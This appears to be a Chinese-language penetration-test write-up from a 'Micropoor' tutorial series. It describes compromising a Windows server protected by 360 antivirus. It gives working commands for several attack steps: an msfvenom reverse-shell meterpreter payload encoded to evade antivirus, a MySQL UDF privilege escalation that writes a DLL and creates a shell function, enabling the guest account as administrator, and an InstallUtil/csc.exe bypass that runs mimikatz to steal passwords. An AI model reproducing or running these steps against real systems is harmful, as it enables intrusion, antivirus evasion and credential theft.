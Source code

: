 ```yaml
---
title: 51、项目回忆：体系的本质是知识点串联
date: 2019-09-21 19:05:30
comments: true
categories: 
 - Micro8系列
---
```



> 一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师。                          
> Micropoor
                                     
拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

-------

### 目标机背景：
windows 2008 r2 x64位 360主动 + 360卫士 + 360杀毒 + waf，目标机仅支持 aspx。运行 OAWeb 服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql 数据库，不支持 php，无 .net for mysql 驱动）

![](../do/media/7aa1856e57ac0ef987a329b1b89a4524.jpg)

### 端口开放如下：
![](../do/media/d599b0029b2b161bc950e73a1c40b841.jpg)

### 需要解决的第一个问题：payload 
由于目标机，安装某套装，payload 一定是必须要解决的问题。当 tasklist 的时候，看到如下图几个进程的时候，第一反应就是需要做 payload 分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。  
 
![](../do/media/d2673aa4f5b1e77887ad446a0fdb2ec4.jpg)

### 本地补图（由于项目在实施后形成该文章，故本地靶机补图）

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。  

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](../do/media/19dfebd9ab71a4e0c11ac47a082a5d7a.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：
```code
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](../do/media/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/  

>   作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。

![](../do/media/8b5a85a36c75eb412d5938adcb9c07f8.jpg)  

生成的payload大小如下：476字节。  

![](../do/media/f4ca74ee9eebe883fdf665a892e0b058.jpg)

世界杀毒网：  
![](../do/media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](../do/media/be28c1202684af6369757b813f4d9649.jpg)  

而关于自带安装分离免杀，请参考我在公司 Wiki 上写的第六十九课时 **payload分离免杀思路第二季**  

payload 反弹到 vps 的 msf 上，我的权限仅仅如下。  
![](../do/media/19694da12bf09c5a567986db01872863.jpg)

### 需要解决的第二个问题：提权
参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。  
* 原因1：需要更多的时间消耗在对反病毒软件对抗。  
* 原因2：目标机补丁过多。需要消耗更多的时间  
* 原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机\*..MYI，\*.MYD，\*.frm，加载于本地mysql。得到目标机root密码  
![](../do/media/6344f895e12122941c872ea7ec30e968.jpg)

而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决  
* 一：转发目标机端口到本地，从而操作mysql。  
* 二：在非交互式下，完成mysql udf的提权。

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx  
![](../do/media/8ebbf18b920c921b26d200c0764b0e51.jpg)  

如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。

![](../do/media/d66e6280c230d7df5594034f2b120506.jpg)

大致流程如下：
```code
mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
```
![](../do/media/9937c23b9e70b9cdd717edaf8872424c.jpg)

### 需要解决的第三个问题：登录服务器

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。  
![](../do/media/4eb174d39dbe43bc7d4428629d5398b0.jpg)

![](../do/media/3455e7d1c707e61e18e8addd6e9cf92f.jpg)

### socks代理登录目标机：
![](../do/media/071c738c001832dabeda3cf1474eb585.jpg)

### 需要解决的第四个问题：抓取目标机明文密码

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。  
* 一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。  
* 二：分离免杀做mimikatz密码抓取

作者选择了第二种方案：

这里需要用到**csc.exe，与InstallUtil.exe**

关于两个文件默认安装位置：（注意x32，x64区别）
```code
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
分别执行：
```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](../do/media/18d0d45533111eb2d484ea1d82de9468.jpg)

![](../do/media/69b5325b911756ed887ffd19523ae927.jpg)

### 派生出的第五个问题：横向渗透

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。
如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时。  

![](../do/media/eccebe5ce07798d977d07e4c3c0d6e8b.jpg)

> 后者的话：
> 本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题。

**在每次分享的同时，深深发现，原来分享，才是我最好的老师。**

> Micropoor



